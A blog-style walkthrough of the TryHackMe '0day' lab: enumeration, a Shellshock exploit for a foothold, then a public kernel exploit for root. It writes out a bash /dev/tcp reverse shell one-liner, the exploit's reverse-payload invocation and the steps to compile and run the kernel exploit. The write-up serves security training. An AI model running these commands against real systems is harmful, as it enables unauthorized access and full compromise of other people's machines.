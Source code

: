 ```yaml
---
layout: post
title: Tryhackme - 0day
date: 2020-11-25 19:00:00 +0000
category: [Tryhackme, Medium]
tags: [thm,linux,medium,kernel-exploit]
---
```


---
<p>0day is a beginner-intermediate room in Tryhackme. The final objective is to get the user and root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/0day/1.png)

**Author** | MuirlandOracle and 0day
**Description** | Exploit Ubuntu, like a Turtle in a Hurricane.

<p>Deploy the VM and lets go.</p>

## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/0day/nmap_scan.png)
<br>
Only the ssh and http services are open. Let's dive right into http service.
<br>
![http_service](/assets/img/tryhackme/0day/2.png)
<br>
Use ```gobuster``` to bruteforce the hidden directories.
<br>
<br>
![gobuster](/assets/img/tryhackme/0day/3.png)
<br>

I found a private ssh key in the ```/backup``` dir, converted it to hash and cracked it but finally it wasn't useful. It was such a drag.. 

So I used ```nikto``` to enumerate further.
<br>
<pre>nikto --url http://remote-ip-addr/</pre>
![nikto_scan](/assets/img/tryhackme/0day/11.png)
<br>
Nikto found a vulnerability called ```shellshock```. I tried using the exploit but it failed. So, I searched for the same vulnerability in ```searchsploit```.
<br>
<pre>searchsploit shellshock</pre>
<br>
![searchsploit](/assets/img/tryhackme/0day/4.png)
<br>
Download the exploit from ```exploit-db```. Here is the [link to exploit](https://www.exploit-db.com/exploits/34900).


## <ins>User flag</ins>
---
I ran the exploit using ```python exlpoit.py``` and it showed the correct usage.
<br>
<pre>python2 exploit.py payload=reverse rhost=10.10.186.0 lhost=your-vpn-ip lport=4444</pre>
<br>
![exploit](/assets/img/tryhackme/0day/5.png)
<br>

It was not a stable shell so I used the bash reverse shell payload to get a stable reverse shell. In the local machine open a netcat listener and run this on the remote machine.
<br>
<pre>bash -i >& /dev/tcp/your-vpn-ip/4445 0>&1</pre>
<br>
![user_flag](/assets/img/tryhackme/0day/6.png)
<br>
There, we got the user flag. 


## <ins>Root flag</ins>
---
After some enumeration I found that the OS is not the latest version.
<br>
<pre>
uname -r
3.13.0-32-generic</pre>
<br>

I used searchsploit to search for any availalbe exploits.
<br>
<pre>searchsploit ubuntu 3</pre>
<br>
![searchsploit_kernel_Exp](/assets/img/tryhackme/0day/7.png)
<br>

Nice!! There is a publicly available kernel exploit. Here is the [link for the exploit](https://www.exploit-db.com/exploits/37292).

Download the exploit to the local machine and transfer it to the remote machine. I tried to run the exploit but somethings wierd...it throws an error.
<br>
![exploit](/assets/img/tryhackme/0day/8.png)
<br>

So, I tried echoing the ```PATH``` variable and the location of ```gcc```.
<br>
![location_](/assets/img/tryhackme/0day/9.png)
<br>

This is because ```gcc``` calls many executables during execution. Since the path is **not exported properly** it throws an error.

So, let's append the location ```/usr/bin``` to the ```$PATH``` variable and export it.
<br>
<pre>export PATH=$PATH:/usr/bin</pre>
<br>
And let's run the exploit.
<br>
<pre>
gcc exploit.c -o exploit
chmod +x exploit
./exploit</pre>
<br>
![path_change](/assets/img/tryhackme/0day/10.png)
<br>
Bingo!!! We got the root flag.

Box rooted.

That's it folks. Happy hacking!!!
